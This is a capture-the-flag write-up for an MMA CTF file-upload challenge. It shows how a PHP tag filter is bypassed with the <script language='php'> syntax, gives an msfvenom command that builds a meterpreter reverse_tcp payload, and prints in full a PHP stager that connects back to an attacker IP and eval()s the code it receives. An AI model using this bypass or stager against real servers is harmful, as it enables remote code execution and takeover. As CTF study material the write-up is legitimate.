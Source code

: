# MMA : Uploader

#### Author: Wh1t3Fox

**Description**:
> This uploader deletes all */<\?|php/*. So you cannot run php.
>
> * http://recocta.chal.mmactf.link:9080/
> * http://recocta.chal.mmactf.link:9081/ (Mirror 1)
> * http://recocta.chal.mmactf.link:9082/ (Mirror 2)
> * http://recocta.chal.mmactf.link:9083/ (Mirror 3)
>
> You can only upload files whose name is matched by */^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/*.

Now the uploader allows us to upload any file type as long as it meets the regex above.

According to [PHP Manual](http://php.net/manual/en/language.basic-syntax.phpmode.php) to execute PHP it is possible to use:

    <script language="php"></script>

instead of

    <?php ?>

Now I must admit I have no clue that this was even possible and did get some help to reach this point. *h/t to a0xnirudh*

Now we know how to execute PHP on the server we have to come up with some backdoor we can upload to the server and get a shell. This is where I turned to [Metasploit](http://www.metasploit.com/).  To generate the payload I used msfvenom.

    msfvenom -p php/meterprete/reverse_tcp LHOST=<PUB_IP> LPORT=9000 -f raw > shell.php

Once I opened the port 9000 on iptables, and setup port forwarding on my router I was ready to start my listener. To do this I launched *msfconsole*, and setup the following information:

![msfconsole setup][setup]

Now we proceed to upload our exploit to the server, and when we view the file we get an instant meterpreter session on the server.

![meterpreter session][meterpreter]

The next step is finding the flag. After looking in the local directory I could tell that those were just files being uploaded and the flag was not there.

![pwd ls][ls]

I started to back out of the directory and ended up finding a file in the root directory called flag and viewing it gave us the flag!

![cat flag][flag]

(Yes, I could've just passed commands through GET requests and I started to do so, but who doesn't like getting a shell? (: )

**PAYLOAD**

    <script language="phP">
        error_reporting(0);
        $ip = '<PUB_IP>';
        $port = 9000;
        if (($f = 'stream_socket_client') && is_callable($f)) {
            $s = $f("tcp://{$ip}:{$port}");
            $s_type = 'stream';
        } elseif (($f = 'fsockopen') && is_callable($f)) {
            $s = $f($ip, $port);
            $s_type = 'stream';
        } elseif (($f = 'socket_create') && is_callable($f)) {
            $s = $f(AF_INET, SOCK_STREAM, SOL_TCP);
            $res = @socket_connect($s, $ip, $port);
            if (!$res) { die(); }
            $s_type = 'socket';
        } else { die('no socket funcs'); }
        if (!$s) { die('no socket'); }
        switch ($s_type) {
            case 'stream':
                $len = fread($s, 4);
                break;
            case 'socket':
                $len = socket_read($s, 4);
                break;
        }
        if (!$len) { die(); }
        $a = unpack("Nlen", $len);
        $len = $a['len']; $b = '';
        while (strlen($b) < $len) {
            switch ($s_type) {
                case 'stream':
                    $b .= fread($s, $len-strlen($b));
                    break;
                case 'socket':
                    $b .= socket_read($s, $len-strlen($b));
                    break;
            }
        }
        $GLOBALS['msgsock'] = $s;
        $GLOBALS['msgsock_type'] = $s_type;
        eval($b);
        die();
    </script>


[setup]: http://i.imgur.com/3jOki3G.png
[meterpreter]: http://i.imgur.com/i7b9TLx.png
[ls]: http://i.imgur.com/01epdzt.png
[flag]: http://i.imgur.com/nbrXrVd.png
